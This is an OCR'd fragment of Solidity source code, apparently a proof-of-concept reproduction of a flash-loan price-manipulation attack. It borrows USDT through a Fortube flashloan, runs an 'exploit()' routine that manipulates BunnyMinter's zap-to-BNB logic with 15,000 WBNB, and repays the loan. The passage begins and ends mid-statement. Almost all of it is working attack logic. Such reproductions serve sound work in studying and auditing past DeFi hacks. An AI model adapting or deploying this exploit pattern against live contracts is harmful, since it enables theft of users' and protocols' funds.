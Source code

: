 │             usdtBalance,                                                                                                                                                                                                                              │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         // *Actual exploit*                                                                                                                                                                                                                           │
│         exploit();                                                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                       │
│         // Start repaying flashloans                                                                                                                                                                                                                  │
│         emit log_string("Repaying flashloans...");                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                       │
│         // Repay fortube flashloan                                                                                                                                                                                                                    │
│         uint256 usdtOwed = amount + fee;                                                                                                                                                                                                              │
│         IERC20(USDT).transfer(FortubeBank.controller(), usdtOwed);                                                                                                                                                                                    │
│     }                                                                                                                                                                                                                                                 │
│     function exploit() public {                                                                                                                                                                                                                       │
│         uint256 wbnbAmount = IERC20(WBNB).balanceOf(address(this)) - 15_000e18;                                                                                                                                                                       │
│                                                                                                                                                                                                                                                       │
│         // Manipulate BunnyMinter._zapAssetsToBunnyBNB - deposit liquidity                                                                                                                                                                            │
│         IERC20(WBNB).approve(address(zap), type(uint256).max);                                                                                                                                                                                        │
│         zap.zapInToken(WBNB, 15_000e18, address(WBNBUSDTv2));                                                                                                                                                                                         │
│         uint256 attackerLPBalance = IERC20(address(WBNBUSDTv2)).balanceOf(                                                                                                                                                                            │